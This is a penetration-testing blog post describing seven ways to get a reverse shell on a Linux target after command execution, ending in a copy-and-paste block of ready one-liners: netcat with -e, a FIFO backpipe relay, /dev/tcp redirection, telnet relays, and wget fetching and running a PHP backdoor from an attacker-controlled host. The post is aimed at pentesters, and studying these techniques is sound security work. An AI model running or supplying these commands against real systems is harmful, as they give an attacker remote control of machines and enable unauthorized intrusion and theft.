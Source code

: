 title: 7 Linux Shells Using Built-in Tools
publish: True
categories: [network security]

---

There are many distributions of linux, and they all do things a little different regarding default security and built-in tool sets. Which means when engaging these different flavors during a pentest, what works against one linux target to get an interactive shell, may not work against another. Well, not to worry my friends, there are many techniques for spawning shells, specifically reverse shells, from linux, and one or more of these techniques is bound to be available no matter which distro you're looking at.

<!-- READMORE -->

The scenario is this: You have the ability to run a simple command, or cause a user to run a simple command, on the target system. Whether it be via a Remote Command Execution vulnerability in a website, or some sort of php injected XSS which causes a privileged user to run commands on the target system. There are many instances of this scenario. Starting from the easiest and most common, here are some of the techniques which can be used to gain reverse shell on the target system.

### #1. netcat

Surprise!!! Nothing new here. Plain and simple. Fire up a listener on the attacker machine on a port which is reachable from the target and connect back to the listener with netcat. Looks like this.

[![](/static/images/posts/netcat.jpg)](/static/images/posts/netcat.jpg)

...just kidding...

[![](/static/images/posts/sh_nc_shell.png)](/static/images/posts/sh_nc_shell.png)

### #2. netcat with GAPING\_SECURITY\_HOLE disabled:

This is a little trick that [Ed Skoudis](https://twitter.com/#!/edskoudis) tweeted about in November of last year, but I haven't seen it widely publicized. It is based on the common technique used to build netcat relays. When the `GAPING_SECURITY_HOLE` is disabled, which means you don't have access to the '-e' option of netcat, most people pass on using netcat and move to something else. Well this just isn't necessary. Create a FIFO file system object and use it as a backpipe to relay standard output from commands piped from netcat to /bin/bash back into netcat. Sounds confusing right? The following image should clear things up.

[![](/static/images/posts/sh_nc_gsh_shell.png)](/static/images/posts/sh_nc_gsh_shell.png)

### #3. netcat without netcat:

I love "hacks" that use features of the operating system against itself. This is one of those "hacks". It takes the /dev/tcp socket programming feature and uses it to redirect /bin/bash to a remote system. It's not always available, but can be quite handy when it is.

[![](/static/images/posts/sh_nc_wo_nc.png)](/static/images/posts/sh_nc_wo_nc.png)

### #4. netcat without netcat or /dev/tcp:

/dev/tcp not available either? Just use telnet with technique #2.

[![](/static/images/posts/sh_nc_telnet.png)](/static/images/posts/sh_nc_telnet.png)

### #5. telnet-to-telnet:

I'm not sure why you'd use this technique, but it's an option, so here it is nonetheless. This is clearly the ugliest of the techniques. This technique uses two telnet sessions connected to remote listeners to pipe input from one telnet session to /bin/bash, and pipe the output to the second telnet session. Commands are entered into one the of the attackers listeners and feedback is received on the other.

[![](/static/images/posts/sh_tel2tel.png)](/static/images/posts/sh_tel2tel.png)

### #6. RCE shell:

On this one I'm cheating a little bit. This applies to Remote Command Execution vulnerabilities only. Rather than manually enter commands into a proxy or browser url, I wrote small python script which gives you the feel of a shell, without spawning anything in reverse from the target. You merely pass the script the vulnerable url with the injectable field replaced with the '&lt;rce&gt;' tag and it presents you with a clean interface for entering commands. In the background, the script is making the request to the web server, parsing the response, and presenting it to you.

[![](/static/images/posts/sh_rce.png)](/static/images/posts/sh_rce.png)

### #7. PHP reverse shell via interactive console:

The last technique makes use of the php interactive console. The attacker issues one command which moves to the /tmp directory (because it is typically world writable), uses wget to download a malicious php reverse_tcp backdoor (which the attacker hosts on a web server that he controls), and executes the backdoor via the interactive console.

[![](/static/images/posts/sh_php.png)](/static/images/posts/sh_php.png)

I want to end this post by stating that I am not the originator of techniques #1, 2, 3, 5, or 7. The majority of these techniques were learned in Ed Skoudis' amazing Security 504 and 560 classes available through SANS. Technique #4 is something I've never seen but stumbled across as I was conducting the demos for this post, so I'll take credit. Obviously, anyone can do #6, and there are plugins for various automated web app testing software packages that do, but I built my script from the ground up and tailored it to preference. If you know of any additional methods that may be helpful to the pentesting community, please leave in the comments below. Without sharing, we all fail. Thanks, and enjoy!

For copy and paste:

``` bash
#1
nc <attacker_ip> <port> -e /bin/bash
#2
mknod backpipe p; nc <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe
#3
/bin/bash -i > /dev/tcp/<attacker_ip>/<port> 0<&1 2>&1
#4
mknod backpipe p; telnet <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe
#5
telnet <attacker_ip> <1st_port> | /bin/bash | telnet <attacker_ip> <2nd_port>
#7
wget -O /tmp/bd.php <url_to_malicious_file> && php -f /tmp/bd.php
```
